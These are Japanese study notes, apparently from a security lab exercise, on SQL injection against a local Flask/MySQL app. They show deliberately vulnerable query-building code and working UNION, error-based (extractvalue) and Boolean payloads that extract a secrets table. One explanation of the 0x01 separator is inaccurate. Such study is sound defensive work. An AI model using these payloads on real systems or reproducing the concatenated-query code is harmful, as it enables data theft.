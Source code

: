 ### SQL インジェクション

Web アプリケーションにおいてユーザが指定した値をもとに、SQL を組み立てる際に、その値を適切に処理しないまま SQL 分の一部として利用してしまうことにより、意図しないデータベース操作が可能となる脆弱性

- web1 を参照

  - プログラムには `kv(id, k, v), secrets(id, data)` という 2 つのテーブルがある
  - secrets テーブルにフラグとなる文字列が含まれているので、攻撃して取得する

- SELECT 文における攻撃方法

  - UNION 句を用いた攻撃手法
    - SQL 文の実行結果が直接ユーザに返却されるような状況において有効
  - Error ベースの攻撃手法
    - SQL 文の実行エラーの内容がユーザに出力されるような場合に有効（意図的に実行エラーを引き起こしエラー分の中に取得したいデータを出力させる)
  - Boolean ベースの攻撃手法
    - SQL 文の実行結果は直接ユーザに出力されないものの、実行結果に応じてレスポンスが変化するような状況において有効
      （取得したいデータの 1 文字列目が A なら 0、そうでない場合は 1」と意図的にレスポンスを変化させることを繰り返す）
  - Time ベースの攻撃手法
    - SQL 文の実行結果が一切返却されていないような状況で有効。SLEEP 関数を利用し、意図的に応答時間を変化させる
      （取得したいデータの 1 文字目が A なら 1 秒待機、そうでなければ待機しない」と意図的に応答時間を変化させる）

- UNION 句を用いた攻撃手法
  - `route_search_index`を攻撃対象とする。
    - `select k,v from kv where k like '%" + key + "%';`はユーザからのキーをそのまま結合しているだけなので攻撃できそう
    - `select k,v from kv where k like '%" union select 1, data from secrets;`のようなクエリを組み立ててみる
      - 選択しているカラムは k,v の 2 つなので union する際のパディングとして適当な値(1)を指定する必要がある。
    - パラメーター key に`' union select 1, data from secrets;#`を渡すとクエリが組み立てられる。

```python
@app.route("/search", methods=["GET"])
def route_search_index():

    key = request.args.get("key")
    if key == None:
        key = ""

    # ユーザからのキーをそのまま結合している
    sql = "select k,v from kv where k like '%" + key + "%';"

    db = get_db()
    try:
        cur = db.cursor()
        cur.execute(sql)

    except Exception as e:
        cur.close()
        return "Error", 500

    data = cur.fetchall()
    cur.close()

    return render_template("index.html", data=data, ndata=len(data))
```

- Error ベースの攻撃手法
  http://localhost:5001/

  - add の画面で文字列を入力すると 1 文字ごとにリクエストが飛んでいることを確認できる

```python
@app.route("/keyCheck", methods=["GET"])
def route_keycheck_index():

    key = request.args.get("key")
    sql = "select k from kv where k = '" + key + "';"

    db = get_db()
    try:
        cur = db.cursor()
        cur.execute(sql)

    except Exception as e:
        cur.close()
        return str(e), 500

    data = cur.fetchall()

    if len(data) == 0:
        return "not used"

    return "used"
```

- `'`を入力して構文エラーの情報を確認する

```
(1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1")
```

- このエラー文を利用して secrets テーブルのデータをエラー情報中に出力させる

  - MySQL には`UpdateXML関数`や`ExtractValue関数`をうまく利用し、データベース中にある情報を意図的に取り出すことができる。[XML 関数](https://dev.mysql.com/doc/refman/8.0/ja/xml-functions.html)
  - `XPATH`として不適切な場合は出力されないため、`concat関数`を用いて適当な文字列を先頭含ませる。
  - `select k from kv where k = '||extractvalue(null,concat(0x01,(select data from secrets)));#`の SQL 文を完成させたい

- `null, concat(0x01, <expression>) `のような形式でバイナリデータを結合できる。この場合、0x01 はバイナリデータをセパレータとして使用し、攻撃者はその後に悪意のあるコマンドを記述することができる。[メモ](https://scrapbox.io/sugar-dev/SQL%E3%82%A4%E3%83%B3%E3%82%B8%E3%82%A7%E3%82%AF%E3%82%B7%E3%83%A7%E3%83%B3%E3%83%A1%E3%83%A2)
  - セパレータ：バイナリデータを分割するために使用される特殊文字で、攻撃者はセパレータを使用して、SQL インジェクション攻撃を実行するための複数のコマンドを SQL 文に組み込むことができる。

`'%7C%7Cextractvalue%28null%2Cconcat%280x01%2C%28select%20data%20from%20secrets%29%29%29%3B%23`をキーとしてリクエストを送ると、、、

- Boolean ベースの攻撃手法

  - エラー時の出力が`Error`になっている
  - 取得できる 2 値のみを用いて全体の情報を取得する。（`SYBSTR関数`を用いて一文字ずつ使用済みかを確かめていく）
    - `select k from kv where k = 'notusedkey' or 1=if((select ascii(substr(data,1,0)) from secrets)=65,1,0);`
    - ASCII コードの 65(A)との比較を行い正しければ 1,異なれば 0 を返す
    - アプリケーション側のコードで下記の部分に注目すると、OR 以降の値が偽であれば not used と文字列が出力されることになる
    ```python
        if len(data) == 0:
        return "not used"
    ```
    - これを繰り繰り返すことで文字列の特定が可能になる

```python
@app.route("/keyCheck", methods=["GET"])
def route_keycheck_index():

    key = request.args.get("key")
    sql = "select k from kv where k = '" + key + "';"

    db = get_db()
    try:
        cur = db.cursor()
        cur.execute(sql)

    except Exception as e:
        cur.close()
        return "Error", 500

    data = cur.fetchall()

    if len(data) == 0:
        return "not used"

    return "used"
```

- 手動でやるのはめんどいので、、、`python3 ../scripts/sqli-boolean-exploit.py`

- Time ベースの攻撃手法
  - 考え方は boolean ベースのものと同じ感じなので割愛

### INSERT/UPDATE 文における攻撃手法
